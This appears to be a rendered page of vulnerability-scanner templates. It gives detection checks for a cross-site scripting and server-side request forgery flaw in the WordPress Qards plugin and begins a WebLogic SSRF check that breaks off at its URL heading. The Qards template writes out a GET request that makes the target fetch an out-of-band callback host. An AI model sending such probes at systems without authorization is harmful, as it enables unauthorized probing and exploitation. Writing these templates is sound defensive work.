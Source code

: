 
# WordPress Qards - Cross-Site Scripting

## Description

- WordPress Qards through 2017-10-11 contains a cross-site scripting vulnerability via a remote document specified in the URL parameter to html2canvasproxy.php.
- severity - medium
- tags - wp-plugin,oast,wpscan,cve,cve2017,wordpress,ssrf,xss

## Requests

- Method - GET

### URL

- {{BaseURL}}/wp-content/plugins/qards/html2canvasproxy.php?url=https://{{interactsh-url}}

### Matchers

**Type - word**

- part - interactsh_protocol
- words
  1. http

**Type - word**

- part - body
- words
  1. console.log

---

# Oracle Weblogic - SSRF in SearchPublicRegistries.jsp

## Description

- An unspecified vulnerability in the Oracle WebLogic Server component in Oracle Fusion Middleware 10.0.2.0 and 10.3.6.0 allows remote attackers to affect confidentiality via vectors related to WLS - Web Services.
- severity - medium
- tags - cve,cve2014,weblogic,oracle,ssrf,oast

## Requests

- Method - GET

### URL
